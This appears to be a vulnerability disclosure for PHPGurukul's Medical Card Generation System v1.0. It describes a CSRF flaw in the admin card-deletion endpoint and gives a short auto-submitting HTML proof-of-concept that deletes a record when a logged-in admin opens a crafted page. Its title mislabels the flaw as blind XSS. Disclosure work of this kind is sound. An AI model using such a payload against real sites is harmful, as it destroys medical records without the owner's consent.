 **Project Name & Repo URL:**
[ Medicalcard Generations System](https://phpgurukul.com/medical-card-generation-system-using-php-and-mysql/)

**Vulnerability Type:**
Privilege Escalation via Blind XSS

**Affected Version(s):** v1.0

**💣Vulnerability Description:**
A Cross-Site Request Forgery (CSRF) vulnerability exists in the Manage Card functionality `(/mcgs/admin/manage-card.php)` of the Medical Card Generation System developed by PHPGurukul. The vulnerable endpoint allows an authorized admin to delete medical card records by sending a simple GET request without verifying the origin of the request (missing CSRF token and missing Origin/Referer validation). An attacker can craft a malicious webpage that, when visited by a logged-in admin, will silently trigger the deletion of a medical card record without the admin's knowledge or consent. This compromises the integrity and availability of critical medical data.

**👩‍💻Impact:**
Unauthorized Medical-Card Detail Deletion.

**🛜Proof-of-Concept (PoC):**

1)There was a delete functionality where only authenticated admin can delete medical-card information.
![1](https://github.com/user-attachments/assets/6284da25-a49b-468f-ae1d-6023548d652f)
2) HTML code to send GET request to the endpoint `/mcgs/admin/manage-card.php`.
```
<html>
  <body>
    <form action="http://127.0.0.1/mcgs/admin/manage-card.php">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="del" value="delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
3)Use the HTML code and craft a malicious URL.

![2](https://github.com/user-attachments/assets/be7c4f2c-63aa-42e7-bd31-92fff841122a)

4)After Admin clicks on the link, medical-card information will be deleted.
![3](https://github.com/user-attachments/assets/89787d6f-d7c5-47b5-a3c7-25b3e26d1764)
![4](https://github.com/user-attachments/assets/c8565a43-b7a6-469a-a61e-2980a011fbbb)
![5](https://github.com/user-attachments/assets/49735bc4-3edb-42e5-bf94-c958cd8817c4)

**Recommendation:**

Implement of CSRF tokens in admin forms, enforce SameSite cookies, and validate request origin to prevent unauthorized actions.
